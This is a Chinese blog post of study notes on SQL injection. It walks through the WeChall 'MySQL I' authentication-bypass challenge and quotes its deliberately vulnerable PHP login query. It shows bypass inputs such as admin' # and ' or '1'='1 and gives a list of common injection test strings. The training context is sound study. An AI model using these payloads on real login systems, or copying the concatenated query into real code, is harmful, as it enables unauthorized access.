 ```yaml
---
layout: post
title: "sqli-studying1"
date: 2019-05-15
author: jjnoob
categories:
- 2019-05
tags:
- ctf
---
```


* content
{:toc}

> sql注入的学习. 看别人的writeup, 积累.


[参考 leehaming](https://blog.csdn.net/lee_ham/article/details/77185049)


# Wechall - Training: MySQL I (MySQL, Exploit, Training)
[题目链接](http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php)


```
username: admin' or '1'='1
passowrd: anyone
```

# 源码

```sql
/* TABLE STRUCTURE */
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY, 
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
```
创建一个表users，表的三个列分别为userid，username，password


* `UNSIGNED` 无符号, 非负数, 可以增加数据长度.
* `CHARACTER SET utf8` 设置默认编码为utf8
* `COLLATE utf8_general_ci` 数据库校对规则。该三部分分别为数据库字符集、解释不明白、区分大小写.
* `collate` : 校对集，主要是对字符集之间的比较和排序.

```php
# Username and Password sent?

if ( ('' !== ($username = Common::getPostString('username'))) && (false !== ($password = Common::getPostString('password', false))) ) {
      auth1_onLogin($chall, $username, $password);
}
```
是判断用户名和密码是否已经发送给服务器

* `Common::getPostString`是调用已有函数，功能为从表单中获取字符串信息
* `auth1_onLogin`为下边的自定义函数，功能为验证用户名和密码


```php
/**
 * Get the database for this challenge.
 * @return GDO_Database
 */
function auth1_db()
{
        if (false === ($db = gdo_db_instance('localhost', WCC_AUTH_BYPASS1_USER, WCC_AUTH_BYPASS1_PASS, WCC_AUTH_BYPASS1_DB))) {
                die('Database error 0815_1!');
        }
        $db->setLogging(false);
        $db->setEMailOnError(false);
        return $db;
}
```

获取本题需要的数据库, 即登陆.


```php
/**
* Exploit this!
* @param WC_Challenge $chall
* @param unknown_type $username
* @param unknown_type $password
* @return boolean
*/
function auth1_onLogin(WC_Challenge $chall, $username, $password)
{
      $db = auth1_db();

      $password = md5($password);

      $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

      if (false === ($result = $db->queryFirst($query))) {
              echo GWF_HTML::error('Auth1', $chall->lang('err_unknown'), false); # Unknown user
              return false;
      }

      # Welcome back!
      echo GWF_HTML::message('Auth1', $chall->lang('msg_welcome_back', htmlspecialchars($result['username'])), false);

      # Challenge solved?
      if (strtolower($result['username']) === 'admin') {
              $chall->onChallengeSolved(GWF_Session::getUserID());
      }

      return true;
}
```


* 这部分就是之前提到的自定义函数，用来处理表单提交的数据。函数与表单之间通过参数`username`和`password`传递数据
* 从html表单中输入的username和password就可以代入到这里的query语句中就可以了。
* 接着`result=result=db->queryFirst($query)`处理MySQL语句并且将结果返回给result，如果查询结果不是false，说明结果存在。
* `$result[‘username’]) === ‘admin’`判断用户是否是admin，如果是说明管理员登录。
* 完成登陆过程。


<br />

# 注入
输入username和password使得执行query语句的结果存在并且用户名为Admin。但是由于我们不知道真实的admin的密码，所以我们想办法绕过password。即我们可以减少select的限制条件，通过将query中AND及其后边的语句在MySQL语句中注释掉，就可以将query改写为：
```sql
SELECT * FROM users WHERE username='admin'
```

单行注释:`#`和`–`

构造过程:
* username为：`admin' #`
* password不填

另外, 这种也是可以的:
```sql
admin' or '1'='1
anyone
```
常见的SQL诸如语句测试:
```sql
' or '1'='1 
' or 1=1 – 
'or'='0' 
"or 1=1 – 
or 1=1 – 
'or' a '=' a 
"or" a "=" a
```

<br />

# Writeup 2


[参考博客园宋姑娘](https://www.cnblogs.com/dreamofus/p/5950844.html)


## 源码
* 判断方式:

```sql
SELECT * FROM users WHERE username='$username' AND password='$password';
```

* 而且有admin这个用户的特判

## 注入:
* 利用php的局部注释“#”可以进行攻击：
* username输入：`admin' and 1=1 #`

这里的代码将被翻译成:
```sql
username='admin' # and  password='$password'"
```
所以密码的验证将被忽略，可以作为admin登录


<br />

# SQL万能密码：`' or 1='1`

[参考friendan](https://blog.csdn.net/friendan/article/details/52215980)

```sql
select name,pass from tbAdmin where name='admin' and pass='123456'
```

输入用户名：`' or 1='1`

SQL变成:
```sql
select name,pass from tbAdmin where name='' or 1='1' and pass='123456'
```

`1='1'` 永远为真，所以就验证通过.
